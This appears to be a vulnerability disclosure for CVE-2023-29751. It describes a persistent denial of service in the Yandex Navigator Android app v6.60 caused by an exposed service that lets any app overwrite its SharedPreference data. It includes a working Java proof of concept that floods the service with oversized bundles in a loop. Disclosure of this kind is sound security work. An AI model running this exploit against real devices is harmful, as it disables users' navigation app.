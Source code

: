 # Denial of Service exists in Yandex Navigator（CVE-2023-29751）

Vendor: Yandex (https://yandex.com/)

Affected product: Yandex Navigator(ru.yandex.yandexnavi)

Version: 6.60

Download link：https://play.google.com/store/apps/details?id=ru.yandex.yandexnavi&pli=1

Description of the vulnerability for use in the CVE：An issue found in Yandex Navigator v.6.60 allows unauthorized apps to cause a persistent denial of service by manipulating the SharedPreference files.

Additional information: The Yandex Navigator application allows unauthorized applications to modify the data in its SharedPreference file through the interface provided by the exposed component, which is loaded into memory for use at application startup. Once an attacker injects an excessive amount of data, it triggers an OOM error and crashes, which eventually leads to a persistent denial of service as the data is stored persistently in the SharedPreference file.

poc:

```java
while (true) {
    ComponentName componentName = new ComponentName("ru.yandex.yandexnavi", "ru.yandex.common.clid.ClidService");
    Intent intent = new Intent();
    intent.setComponent(componentName);
    intent.putExtra("service_version", 0);
    intent.setAction("ru.yandex.common.clid.update_preferences");
    intent.putExtra("preferences", "STORAGE");
    intent.putExtra("application", "ru.yandex.yandexnavi");
    Bundle bundle = new Bundle();
    Bundle bundle2 = new Bundle();
    Bundle bundle3 = new Bundle();
    String randomString = getRandomString(50240);
    bundle2.putString(randomString, randomString);
    bundle3.putLong(randomString, Long.MAX_VALUE);
    bundle.putBundle("bundle-values", bundle2);
    bundle.putBundle("bundle-time", bundle3);
    intent.putExtra("bundle", bundle);
    ServiceConnection connection = new ServiceConnection() {
        @Override
        public void onServiceConnected(ComponentName name, IBinder service){
        
        }
        @Override
        public void onServiceDisconnected(ComponentName name) {
            
        }
    };
    bindService(intent,connection,BIND_AUTO_CREATE);
}
```


